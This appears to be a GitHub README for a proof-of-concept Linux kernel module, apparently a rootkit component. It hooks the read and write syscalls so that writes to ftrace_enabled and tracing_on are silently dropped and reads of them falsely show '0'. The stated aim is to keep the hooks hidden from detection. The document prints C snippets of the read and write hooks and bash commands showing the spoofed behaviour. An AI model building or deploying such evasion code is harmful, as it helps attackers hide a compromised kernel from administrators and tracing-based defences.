

## Simple PoC for Silently Blocking All `writes` to `ftrace_enabled` && `tracing_on` as Well as Spoofing the Read from Those Files When Enabled to Appear Off

### Overview
This Linux kernel module ensures that all `write` operations to the files `/proc/sys/kernel/ftrace_enabled` and `/sys/kernel/tracing/tracing_on` are silently blocked. Additionally, the module spoofs the read value of these files to appear as `0` when they are actually enabled (`1`), but only once per read attempt to avoid spamming `0`s.

The goal is to maintain the integrity of the hooks while keeping them hidden from detection or tampering. This is achieved through custom hooks implemented for the `read` and `write` syscalls.

---

### Snippet from `hooks/read.h`

```c
// If the current value is "1" change it to "0" once; avoids repeated spoofing.
if (spoof_next_read == 0 && strncmp(kernel_buf, "1", 1) == 0) {
    kernel_buf[0] = '0';
    spoof_next_read = 1; // Ensure spoof happens only once
} else {
    spoof_next_read = 0; // Reset spoof for subsequent reads
}
```

---

### Snippet from `hooks/write.h`

```c
/* Silently blocks writes to ftrace_enabled and tracing_on using the same 
   method employed in clear-taint-dmesg, but adapted for the write syscall. */

if (strcmp(file->f_path.dentry->d_name.name, "ftrace_enabled") == 0 ||
    strcmp(file->f_path.dentry->d_name.name, "tracing_on") == 0) {
        
    fput(file); // Free the file object after verification

    // Allocate a temporary buffer in kernel space
    kernel_buf = kmalloc(B_F, GFP_KERNEL);
    if (!kernel_buf) {
        return -ENOMEM;
    }

    // Copy data from user space to kernel space buffer
    if (copy_from_user(kernel_buf, user_buf, count)) {
        kfree(kernel_buf);
        return -EFAULT;
    }

    // Check for "1" or "0" and handle appropriately
    if (strncmp(kernel_buf, "1", 1) == 0) {
        // ftrace enabled
    } else if (strncmp(kernel_buf, "0", 1) == 0) {
        // ftrace disabled
    }

    kfree(kernel_buf);
    return count; // Simulate a successful write
}
```

---

### Example Usage

<p align="center"></p>

```bash
echo 0 > /proc/sys/kernel/ftrace_enabled; echo 0 > /sys/kernel/tracing/tracing_on
# Silently blocked; write does not succeed

cat /proc/sys/kernel/ftrace_enabled; cat /sys/kernel/tracing/tracing_on
# Outputs 0 (even if internally it remains enabled)
```

### Extra 

[](https://discord.gg/66N5ZQppU7)
[]()
[]()
